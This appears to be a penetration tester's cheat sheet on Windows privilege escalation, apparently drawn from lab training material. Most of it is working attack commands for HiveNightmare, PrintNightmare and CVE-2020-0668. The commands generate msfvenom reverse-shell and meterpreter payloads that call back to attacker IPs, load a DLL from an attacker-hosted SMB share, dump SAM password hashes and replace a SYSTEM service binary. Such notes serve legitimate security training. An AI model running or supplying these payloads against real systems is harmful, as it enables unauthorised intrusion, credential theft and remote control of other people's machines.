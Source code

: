 Over the years, there have been many kernel exploits that affect the Windows operating system from Windows 2000/XP up to Windows 10/Server 2016/2019. Below can be found a detailed table of known remote code execution/local privilege escalation exploits for Windows operating systems, broken down by service pack level, from Windows XP onward to Server 2016.

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits

### Enumerating Missing Patches
```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

### Metasploit Exploit Suggester
```bash
run post/multi/recon/local_exploit_suggester
```

```bash
background
exploit/windows/local/ms10_015_kitrap0d
set session 1 
set lhost tun0
set lport 5555 		(something different from last session)
exploit
```
#### Notable Exploits
- `MS08-067`
- `MS17-010` - [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
- `ALPC Task Scheduler 0-Day`
- `CVE-2021-36934 HiveNightmare, aka SeriousSam`


### HiveNightmare (Windows 10)
```powershell
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
      NT AUTHORITY\SYSTEM:(I)(F)
      BUILTIN\Users:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:
```powershell
.\HiveNightmare.exe
```

Dump hashes
```powershell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

### PrintNightmare
Local exploitation with [Invoke-Nightmare](https://github.com/cube0x0/CVE-2021-1675) 
```powershell
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

Remote exploitation
Check if machine is vulnerable
```powershell
rpcdump.py @192.168.1.129 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Generate malicious DLL, host it
```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=1337 -f dll > shell.dll

smbserver.py share `pwd` -smb2support

nc -lnvp 1337
```

Download and run [this script](https://github.com/cube0x0/CVE-2021-1675).
```bash
python3 printnightmare.py pnpt.local/greg:Password1@192.168.1.129 '\\192.168.1.11\share\shell.dll'
```

### CVE-2020-0668
[Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/) exploits an arbitrary file move vulnerability leveraging the Windows Service Tracing

Check privileges
```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```shell
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary
```powershell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generate malicious binary
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Download two copies of payload
Run exploit
```powershell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Replace File with Malicious Binary **NUMBER  2**
```powershell
 copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Start listener
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST 10.10.15.155; set LPORT 4443; set payload windows/x64/meterpreter/reverse_https; run'
```

Start service
```powershell
net start MozillaMaintenance 
```
